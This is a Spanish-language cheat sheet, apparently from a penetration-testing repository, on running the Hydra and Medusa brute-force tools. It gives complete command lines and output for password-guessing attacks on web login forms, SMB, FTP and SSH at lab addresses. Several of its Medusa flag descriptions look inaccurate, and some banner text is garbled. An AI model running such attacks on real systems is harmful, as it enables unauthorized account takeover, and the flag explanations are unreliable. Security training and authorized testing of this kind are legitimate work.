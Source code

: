 # TOOLS FORCE BRUTE ATTACK
## HYDRA
___
**Hydra.-** es una herramienta de prueba de penetración (pentesting) que se utiliza para realizar ataques de fuerza bruta a sistemas de autenticación. Es una herramienta de línea de comandos que permite automatizar el proceso de adivinación de contraseñas para varios protocolos de autenticación, incluyendo FTP, SSH, Telnet, HTTP, HTTPS, entre otros.

### HTTP POST-FORM
#### Ejecución
``` java
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
hydra 192.168.200.152 http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -L user.txt -P password.txt   
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-15 11:03:17
[DATA] max 16 tasks per 1 server, overall 16 tasks, 78 login tries (l:3/p:26), ~5 tries per task
[DATA] attacking http-post-form://192.168.200.152:80/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed
[80][http-post-form] host: 192.168.200.152   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-15 11:03:20
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
En la línea de comando de Hydra, los flags significan lo siguiente:

>* **192.168.200.152.-** Indica la dirección IP del servidor que se va a atacar.
>* **http-post-form.-** Indica el protocolo que se va a utilizar para la comunicación con el servidor. En este caso, se utilizará el protocolo HTTP y se enviarán los datos de inicio de sesión mediante un formulario HTTP POST.
>* **"/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed":** Esta cadena de caracteres representa la URL y los datos del formulario que se utilizarán en el ataque. Se especifica el archivo login.php y se definen los campos del formulario de inicio de sesión, incluyendo el nombre de usuario, la contraseña y el botón de inicio de sesión. "Login failed" indica el mensaje que se mostrará en caso de que el intento de inicio de sesión falle.
>* **-L user.txt:** Especifica el archivo que contiene una lista de nombres de usuario que se utilizarán en el ataque.
>* **-P password.txt:** Especifica el archivo que contiene una lista de contraseñas que se utilizarán en el ataque.

### GET_FORM
#### Ejecución
```java
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
hydra 192.168.200.152 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low:F=Username and/or password incorrect" -L user.txt -P /usr/share/wordlists/rockyou.txt   
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-15 12:57:21
[INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 43033197 login tries (l:3/p:14344399), ~2689575 tries per task
[DATA] attacking http-get-form://192.168.200.152:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low:F=Username and/or password incorrect
[80][http-get-form] host: 192.168.200.152   login: admin   password: password
CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Este comando usa la herramienta Hydra para realizar un ataque de fuerza bruta en un formulario de inicio de sesión en una página web alojada en la dirección IP 192.168.200.152.

>* **"http-get-form".-** especifica que se debe usar el método HTTP GET para enviar el formulario de inicio de sesión.
>* **"/vulnerabilities/brute/".-** es la URL del formulario de inicio de sesión.
>* **":username=^USER^&password=^PASS^&Login=Login".-** son los campos del formulario de inicio de sesión que se van a atacar. Los valores de usuario y contraseña se reemplazarán con los valores del archivo de usuario y de la lista de contraseñas proporcionados.
>* **"H=Cookie:PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2;.-** security=low" son las cookies que se van a enviar junto con la solicitud de inicio de sesión. En este caso, se envía una cookie PHPSESSID con un valor específico y se establece el nivel de seguridad en "bajo".
>* **"F=Username and/or password incorrect".-** es el mensaje que se muestra en la página web cuando se ingresan credenciales incorrectas.
>* **"-L user.txt".-** especifica la ruta del archivo que contiene los nombres de usuario que se utilizarán para el ataque de fuerza bruta.
>* **"-P /usr/share/wordlists/rockyou.txt".-** especifica la ruta de la lista de contraseñas que se utilizará para el ataque de fuerza bruta. En este caso, se utiliza la popular lista de 

### HYDRA SMB

```java
┌──(root㉿kali)-[/home/…/CTF/HTB/blue/content]
└─# hydra -l Administrator -p 'P@ssw0rd' smb://192.168.200.155
Hydra v9.4 (c) 2022 by van HARRIS Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway New).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-24 14:42:10
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking smb://192.168.200.155:445/
[445][smb] host: 192.168.200.155   login: Administrator   password: P@ssw0rd 
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-24 14:42:11

```

si fuera ftp `hydra -l usuario -P contraseñas.txt ftp://192.168.1.100`

si fuera ssh `hydra -l usuario -P contraseñas.txt ssh://192.168.1.100`



## MEDUSA
___
**Medusa.-** es una herramienta de prueba de penetración que se utiliza para realizar ataques de fuerza bruta contra sistemas y aplicaciones. Su función principal es intentar adivinar credenciales de inicio de sesión, como nombres de usuario y contraseñas, mediante la repetición de pruebas con diferentes combinaciones de credenciales.

Medusa puede trabajar con varios protocolos, incluyendo FTP, SSH, Telnet, SMTP, HTTP, HTTPS, SMB, y muchos otros. La herramienta puede utilizar varios métodos de autenticación, como diccionarios de contraseñas, ataque por fuerza bruta y ataques de diccionario personalizado. Además, Medusa es compatible con varias plataformas y sistemas operativos, incluyendo Linux, Windows y macOS.

Es importante tener en cuenta que Medusa debe ser utilizado únicamente con fines éticos y legales. Es necesario obtener la autorización previa del propietario del sistema o aplicación que se va a probar antes de utilizar cualquier herramienta de prueba de penetración.
>* -h: Este flag indica el host o dirección IP del sistema o aplicación que se va a atacar.
>* -U: Este flag especifica el archivo que contiene una lista de nombres de usuario que se probarán en el ataque.
>* -P: Este flag especifica el archivo que contiene una lista de contraseñas que se probarán en el ataque.
>* -M: Este flag indica el protocolo que se utilizará para comunicarse con el sistema o aplicación que se va a atacar, como http, ftp, ssh, telnet, etc.
>* -m: Este flag indica el modo de autenticación que se utilizará para el ataque, como diccionario, fuerza bruta, etc.
>* -T: Este flag indica el número máximo de hilos (threads) que se utilizarán en el ataque.
>* -f: Este flag indica que se deben utilizar las contraseñas de los usuarios proporcionados en el archivo de nombres de usuario.
>* -e: Este flag indica que se deben utilizar contraseñas vacías en el ataque.
>* -B: Este flag indica que se deben utilizar técnicas de ataque especiales, como ataque de diccionario personalizado, fuerza bruta por intervalo de tiempo, etc.
>* -C: Este flag indica que se deben utilizar diferentes códigos de respuesta del servidor para identificar si una prueba de credenciales ha sido exitosa o no.


### SMB 
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/blue/content]
└─# medusa -u Administrator -p 'P@ssw0rd' -h 192.168.200.155 -M smbnt
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun-bh / Foofus Networks <jmk@foofus.tst.net>

ACCOUNT CHECK: [smbnt] Host: 192.168.200.155 (1 of 1, 0 complete) User: Administrator (1 of 1, 0 complete) Password: P@ssw0rd (1 of 1 complete)
ACCOUNT FOUND: [smbnt] Host: 192.168.200.155 User: Administrator Password: P@ssw0rd [SUCCESS (ADMIN$ - Access Allowed)]
```
El mismo ejemplo se puede usar para FTP `medusa -u usuario -P contraseñas.txt -h 192.168.1.100 -M ftp`

El mismo ejemplo se puede usar para `medusa -u usuario -P contraseñas.txt -h 192.168.1.100 -M ssh`
